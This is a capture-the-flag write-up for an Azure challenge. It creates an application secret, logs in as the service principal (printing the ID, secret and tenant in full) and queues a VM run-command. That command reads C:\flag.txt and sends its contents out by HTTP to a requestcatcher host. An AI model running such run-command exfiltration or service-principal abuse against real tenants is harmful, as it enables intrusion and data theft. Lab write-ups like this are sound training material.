 # Service Principals as SysAdmins?

## Challenge

![](2022-11-08-11-23-28.png)

## Solution

Logged into https://portal.azure.com using the credentials given to us on the OnDemand webpage.

In Azure we see there is an application, `abb6ea23d0f715`, where we are allowed to create a new secret.

![](2022-11-08-16-05-59.png)

Using the created secret we can authenticate using `az cli`
```
az login --service-principal -u ad3bffe9-1d70-48f8-a4e5-5092f7e4de7d -p ort8Q~dvugECeQ1tiExfTgqAXRcgSzqTXX-YoaL2 --tenant 6837db8b-72d9-4346-bbb4-c2536150adf5
```

Alternatively using Az Powershell module
```powershell
$passwd = ConvertTo-SecureString("ort8Q~dvugECeQ1tiExfTgqAXRcgSzqTXX-YoaL2") -Force -AsPlainText
$creds = New-Object System.Management.Automation.PSCredential("ad3bffe9-1d70-48f8-a4e5-5092f7e4de7d", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant 6837db8b-72d9-4346-bbb4-c2536150adf5
```

![](2022-11-13-23-07-37.png)

It appears the service principal has access to a virtual machine.

The following powershell command will queue up a command to run on the Virtual Machine. The script will get the content of the `C:\flag.txt` file, put it in a variable, and then make an HTTP request to a site we control, including the content in the URL.
```powershell
Set-AzVMRunCommand -ResourceGroupName "abb6ea23d0f715-rg" -Location northeurope -VMName "abb6ea-flag6-vm" -RunCommandName "RunCommandName1" –SourceScript '$foo = Get-Content -Path C:\flag.txt; Invoke-WebRequest -URI "https://fizzbuzz.requestcatcher.com/$foo"'
```

Shortly after, the HTTP request came in and it included the flag.

Flag:
```
EPT{249b6f41-dc53-40dd-9cc7-f0d045463d0c}
```